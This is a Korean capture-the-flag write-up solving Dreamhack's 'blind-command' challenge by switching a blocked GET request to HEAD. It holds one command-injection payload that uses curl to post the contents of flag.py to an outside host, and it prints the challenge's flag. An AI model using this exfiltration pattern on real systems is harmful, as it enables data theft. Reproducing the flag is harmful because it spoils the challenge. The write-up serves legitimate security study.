 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Dreamhack "blind-command"  Write-UP</h1>
</body>
<br>
<br>
</html>

2024.08.14 풀이

![image](https://github.com/user-attachments/assets/328301d5-2eb0-41b0-b3c0-5524626258a5)

Dreamhack 워게임에 있는 2단계의 blind-command를 풀어보려고 한다. 

<br>
 
</br>

![image](https://github.com/user-attachments/assets/6f7207ce-5d94-4d70-b007-f3f231b37be6)

서버에 연결해보니, ?cmd=[cmd] 화면이 출력되었다.

<br>
 
</br>

문제 파일을 살펴보니, app.py 파일만 있었다.

<br>
 
</br>

## app.py

![image](https://github.com/user-attachments/assets/bb1375a6-8aec-420c-86ba-8c3f8f83bece)

코드 내용을 살펴보니, 이는 cmd 매개변수를 가지고 있는데, 이 매개변수의 값이 없으면 아까 본 ?cmd=[cmd] 화면을 출력하는 내용이었다. 이와 반대로 GET 메소드는 막혀있는 것을 볼 수 있었다.

<br>
 
</br>

## flag
GET 메소드가 막혀있기 때문에, 다른 메소드를 사용해서 flag 값에 접근하려고 한다. 
버프 스위트를 사용해서, 패킷을 살펴보고 수정하려고 한다. 

<br>
 
</br>

![image](https://github.com/user-attachments/assets/495cdfb1-4693-4223-a6dc-5dcd9c54c92b)

![image](https://github.com/user-attachments/assets/d7babfcf-dbb3-4576-afcd-a815fdf7acc5)

버프 스위트를 통해, GET으로 구성된 패킷을 HEAD 메소드로 바꾸고, cmd 명령어로 curl 명령어를 넣고, flag.py를 출력하기 위해, cat flag.py를 입력해서,

<br>
 
</br>

```
HEAD /?cmd=curl+http://host3.dreamhack.games:21749//+-d+"$(cat+flag.py)" HTTP/1.1
```

화면에 flag값이 출력되었다. 

<br>
</br>

```
DH{4c9905b5abb9c3eb10af4ab7e1645c23}
```

<br>
 
</br>

![image](https://github.com/user-attachments/assets/3e84fc25-ec68-4111-b3dc-61b65c81ce5d)

이렇게 문제 해결을 할 수 있었다.
